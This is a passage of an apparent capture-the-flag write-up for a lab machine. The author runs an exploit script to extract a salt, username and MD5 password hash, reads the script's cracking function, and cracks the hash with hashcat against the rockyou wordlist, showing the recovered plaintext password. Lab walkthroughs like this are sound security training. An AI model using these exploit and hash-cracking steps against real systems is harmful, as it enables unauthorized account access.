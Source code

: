 ```none
python2 -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

My terminal went a bit nuts and started flashing during the password cracking process, and I suspected that it was going pretty slow. Reading the source code of the exploit shows that the hash is just a salted MD5, and would be easier and faster to crack it with `john` or `hashcat`. After waiting a while, I canceled the script during the cracking process, with the following information - a salt, username, and hashed password.

```none
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

If we look at the exploit source code, we can find the function for cracking the password.

```python
def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()
```

Specifically, we can see the line that does the password guessing.

```none
if hashlib.md5(str(salt) + line).hexdigest() == password:
```

If we look at this in terms of `hashcat` syntax - the hashed password is in the `md5($salt.$pass)` format, which is hash mode `20` in `hashcat`. Let's start by creating a new file with the salted hash value, where the salt and hash are separated by a colon (`:`). Even though the format of the hash is `salt:password`, the `hashcat` mode wants it in `password:salt`.

```none
echo -n '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > jkr_hash
```

Then start `hashcat` using mode `20`.

```none
hashcat -m 20 --remove jkr_hash /usr/share/wordlists/rockyou.txt
```

This worked fast, even when running `hashcat` in my VM with no OpenCL drivers. The results...

```none
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Wed Aug  4 08:18:34 2021 (2 secs)
Time.Estimated...: Wed Aug  4 08:18:36 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2795.9 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4360192/14344385 (30.40%)
```